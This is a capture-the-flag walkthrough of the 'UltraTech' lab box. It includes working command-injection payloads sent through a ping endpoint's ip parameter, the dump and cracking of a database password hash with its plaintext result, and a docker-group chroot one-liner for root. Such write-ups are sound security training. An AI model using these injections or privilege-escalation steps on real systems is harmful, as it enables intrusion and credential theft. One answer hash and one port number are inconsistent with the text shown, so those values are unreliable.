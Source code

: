 # UltraTech writeup
This is an intermediate challange that requires relatively easy methods for privilege escalation.

## Enumeration

Using `sudo nmap -Pn -p- -v -A 10.10.22.222` to find open ports on the server yields the following results:
![nmap scan](images/nmap.png)

We can easily find all of the answers for part one of this challange by inspecting of the nmap scan.
1. Which software is using the port 8081?
    * Node.js

2. Which other non-standard port is used?
    * 31331

3. Which software using this port?
    * Apache

4. Which GNU/Linux distribution seems to be used?
    * Ubuntu (Both SSH and Apache are running their Ubuntu versions)

5. The software using the port 8080 is a REST api, how many of its routes are used by the web application?
    * 2 (_http-cors and _http-title)


We try finding hidden directories on the Node.js by running `gobuster dir -u http://10.10.22.222:8081/ -w /usr/share/dirb/wordlists/big.txt  -t 30` since there seems to be something hiding here. 
![gobuster scan](images/gobuster.png)

Heading to the /auth site only tells us that `You must specify a login and a password`.
There doesn't seem like there's very much to do on this website...yet.

Doing a similar gobuster scan on the apache server at port 30331, however, reveals a lot of directories:
`gobuster dir -u http://10.10.22.222:31331 -w /usr/share/dirb/wordlists/big.txt  -t 30`
![apache server scan](images/apache_server.png)

Heading to the /js directory gives us a couple of files, where the `api.js` stands out. 
In the api.js file we see this

![api.js](images/api_js.png)

This script seems to, amongst other things, ping itself on port 8081 (which is where the Node.js site resides) to check if the API is running. The new endpoint, `http://10.10.55.254:8081/ping?ip={some_ip}`, is revealed. 

## User privileges

By going to `http://10.10.55.254:8081/ping?ip=10.10.55.254` we get this reply `PING 10.10.55.254 (10.10.55.254) 56(84) bytes of data. 64 bytes from 10.10.55.254: icmp_seq=1 ttl=64 time=0.023 ms --- 10.10.55.254 ping statistics --- 1 packets transmitted, 1 received, 0% packet loss, time 0ms rtt min/avg/max/mdev = 0.023/0.023/0.023/0.000 ms` which looks a lot like Linux' standard ping reply. This implies that the system might be vulnerable for a [command injection attack](https://owasp.org/www-community/attacks/Command_Injection). An inline execution is performed when a command is surrounded by backticks (`).

Thus by sending the argument ``` `ls` ``` to the server, we first execute the ls command, and then send the result to the ping command. By going to ``` http://10.10.55.254:8081/ping?ip=`ls` ``` we receive this reply from the server. `ping: utech.db.sqlite: Name or service not known `

1. There is a database lying around, what is its filename?
    * utech.db.sqlite

This endpoint is thus vulnerable to clommand injection attacks. 

In order to read this file you simply send this request ``` http://10.10.55.254:8081/ping?ip=`cat utech.db.sqlite` ```. 
`ping: ) ���(Mr00tf357a0c52799563c7c7b76c1e7543a32)Madmin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded`

After some trying and failing, I find out that the username is `r00t` and MD5 hash of the password `f357a0c52799563c7c7b76c1e7543a32`.

2. What is the first user's password hash?
    * 357a0c52799563c7c7b76c1e7543a32

Using [Crackstation](crackstation.net) i find that the password for `r00t` is `n100906`.

3. What is the password associated with this hash?
    * n100906

![Crackstation](images/md5.png)

I try to connect to the server with SSH by using these credentials, and to my suprise the username and password combination actually works! User privileges gained! :^)

## Privilege escalation

Basic enumeration as r00t does not give us anything. 
I intall `linpeas.sh` in r00t's home directory and run it. 

![Linpeas](images/linpeas.png)

r00t seems to be in the Docker group, so we better check that out more closely. There might be some Docker related commands we can use to escalate our privileges. Heading over to [GTFObin's site for docker](https://gtfobins.github.io/gtfobins/docker/) we see that the `docker run -v /:/mnt --rm -it bash chroot /mnt sh` can be used to escape restricted shells and gain root access.

![Rooted!](images/root.png)

Rooted! :^) 
